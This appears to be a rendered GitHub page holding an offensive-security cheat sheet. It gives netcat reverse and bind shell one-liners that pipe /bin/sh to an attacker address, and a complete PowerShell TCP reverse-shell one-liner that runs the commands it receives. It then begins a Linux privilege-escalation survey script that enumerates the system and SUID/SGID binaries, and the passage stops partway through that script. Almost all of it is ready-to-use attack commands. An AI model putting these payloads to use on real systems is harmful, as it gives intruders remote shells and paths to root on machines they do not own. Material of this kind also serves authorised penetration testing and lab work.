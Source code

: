 ```bash
nc <TARGET> <PORT>

# === NETCAT SHELLS (Modern Linux, without -e flag) ===

# REVERSE SHELL
# ATTACKER (Listen):
nc -lvnp <PORT>

# LINUX TARGET (Connect Back):
mkfifo /tmp/f; nc <ATTACKER_IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# --- BIND SHELL ---

# LINUX TARGET (Listen):
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# ATTACKER (Connect):
nc <TARGET> <PORT>

# --- POWERSHELL REVERSE SHELL (Windows Only) ---

# ATTACKER (Listen):
nc -lvnp <PORT>

# WINDOWS TARGET (Connect Back):
# (Execute this one-liner in a cmd.exe or powershell prompt)
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ATTACKER_IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## 🐧 Linux Survey

```bash
#!/bin/bash

# ===============================================================
# ===      FINAL, FOCUSED & ROBUST LINUX PRIV-ESC SURVEY      ===
# ===============================================================

# --- Configuration: Add binaries to ignore to these lists, separated by "|" ---
SUID_IGNORE_LIST="chsh|gpasswd|newgrp|chfn|passwd|sudo|su|ping|ping6|mount|umount|Xorg\.wrap|ssh-keysign"
SGID_IGNORE_LIST="wall|ssh-agent|mount|umount|utempter"

# --- Main Survey Execution ---
(
echo "===== WHO AM I? =====";
whoami; id; pwd; hostname;

echo -e "\n===== OS & KERNEL INFO =====";
uname -a;
cat /etc/issue;
cat /etc/os-release;

echo -e "\n===== INTERESTING SUID FILES (FILTERED) =====";
echo "Review this list carefully. Check GTFOBins for each binary: https://gtfobins.github.io/";
find / -perm -u=s -type f 2>/dev/null | grep -vE "/(${SUID_IGNORE_LIST})$";

echo -e "\n===== INTERESTING SGID FILES (FILTERED) =====";
```